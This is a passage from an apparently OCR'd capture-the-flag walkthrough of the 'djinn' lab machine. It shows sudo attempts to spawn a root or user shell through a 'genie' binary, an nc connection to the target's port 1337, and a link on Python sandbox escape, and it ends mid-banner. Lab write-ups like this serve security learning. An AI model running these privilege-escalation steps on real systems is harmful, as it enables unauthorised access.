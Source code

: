 positional arguments:

wish Enter your wish

optional arguments:

\-h, --help show this help message and exit

\-g, --god pass the wish to god

\-p SHELL, --shell SHELL

Gives you shell

\-e EXEC, --exec EXEC execute command

Attempt is made to escalate with genie binary.

nitish\@djinn:\~\$ sudo -u sam /usr/bin/genie -p "/bin/bash"

sudo -u sam /usr/bin/genie -p "/bin/bash"

usage: genie [-h] [-g] [-p SHELL] [-e EXEC] wish

genie: error: the following arguments are required: wish

nitish\@djinn:\~\$ sudo -u sam /usr/bin/genie -p "/bin/sh"

sudo -u sam /usr/bin/genie -p "/bin/sh"

usage: genie [-h] [-g] [-p SHELL] [-e EXEC] wish

genie: error: the following arguments are required: wish

nitish\@djinn:\~\$ genie whoami -p /bin/bash -e /bin/bash

genie whoami -p /bin/bash -e /bin/bash

nitish\@djinn:/opt/80\$ sudo -u sam genie -p "/bin/bash" -g wish

sudo -u sam genie -p "/bin/bash" -g wish

We've added your wish to our records.

Continue praying!!

\#

As I could not get far with the genie executable I tried searching elsewhere.
Considering that the app.py was written in python, I thought that port 1337 app

might be written in python too. After a little bit of digging I found this
article,
https://ctf-wiki.github.io/ctf-wiki/pwn/linux/sandbox/python-sandbox-escape/ .

First, start with something easy - whoami, as it turns out the program was
running with root privileges.

lifesfun:\~\# nc -nv 192.168.211.145 1337

(UNKNOWN) [192.168.211.145] 1337 (?) open

\___\_ \____\_ \_

/ \___\| \_\_ \_ \_ \_\_ \__\_ \__\_ \|\_ \_(_)\_ \_\_ \__\_ \__\_
